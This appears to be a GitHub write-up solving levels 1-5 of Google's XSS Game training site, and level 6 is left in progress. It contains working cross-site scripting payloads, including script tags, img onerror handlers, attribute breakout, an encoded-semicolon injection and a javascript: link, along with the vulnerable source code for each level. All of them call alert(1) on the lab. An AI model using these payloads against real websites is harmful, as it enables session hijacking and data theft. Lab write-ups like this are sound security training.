 XSS Challenges
===================

XSS (Cross Side Scripting) Game located at https://xss-game.appspot.com/

Level 1: Hello, world of XSS
----------------

Very straight forward, the begginners XSS, by checking for scripts, they can be injected wherever a user can input information. 
```javascript
<script>alert(1);</script>
```

Level 2: Persistence is key
------------------
This time a basic script tag will not work, however there are other ways to invoke javascript. For instance, you can have an onerror trigger a function when an img is not found.

```javascript
<img src="foo.png" onerror="alert(1)" />
```

Level 3: That sinking feeling...
------------------
This next challenge is a bit more complicated as we can now only modify the URL itself, if we toggle the code on we can see where the hashtag data is processed. The particular line of interest is

```javascript
html += "<img src='/static/level3/cloud" + num + ".jpg' />";
```

This line directly takes what is passed in the header to append to the img src tag, however we can manipulate the header such that it closes the source tag and creates an onerror attribute.

```
    https://xss-game.appspot.com/level3/frame#4.png' onerror="alert(1)"/>
```

Which will result in this
```javascript
<img src="/static/level3/cloud4.png" onerror="alert(1)">
```

```javascript
function chooseTab(num) {
  // Dynamically load the appropriate image.
  var html = "Image " + parseInt(num) + "<br>";
  html += "<img src='/static/level3/cloud" + num + ".jpg' />";
  $('#tabContent').html(html);

  window.location.hash = num;

  // Select the current tab
  var tabs = document.querySelectorAll('.tab');
  for (var i = 0; i < tabs.length; i++) {
    if (tabs[i].id == "tab" + parseInt(num)) {
      tabs[i].className = "tab active";
      } else {
      tabs[i].className = "tab";
    }
  }

  // Tell parent we've changed the tab
  top.postMessage(self.location.toString(), "*");
}
```
Level 4: Context matters
---------------------------
This  one was a bit more tricky as MVC was implemented to provide some structure, at first I tried a URL like 

```
    https://xss-game.appspot.com/level4/frame?timer=');alert('1
```

However, I eventully realized that the semicolon is not being parsed and if I pass the URL encoding of a semicolon it would work

```
    https://xss-game.appspot.com/level4/frame?timer=')%3Balert('1
```

Which results in this
```javascript
    <img src="/static/loading.gif" onload="startTimer('');alert('1');">
```

```html
<body id="level4">
  <img src="/static/logos/level4.png" />
  <br>
  <img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />
  <br>
  <div id="message">Your timer will execute in {{ timer }} seconds.</div>
</body>
```

Level 5: Breaking protocol
---------------------------------

At first this problem looks complicated, however it took me much less time now that I know to pass in URL encoded characters. After clicking sign-up, you see a page with a next href. The location to where this href goes to is entirely regulated by next=confirm, so this variable could be manipulated to make the link execute javascript.

```javascript
<a href="{{ next }}">Next >></a>
```

My method was 
```
    https://xss-game.appspot.com/level5/frame/signup?next=javascript%3Aalert(1)
```

Which turned the link to
```html
    <a href="javascript:alert(1)">Next &gt;&gt;</a>
```

Level 6: Follow the
------------------------
Currently in progress
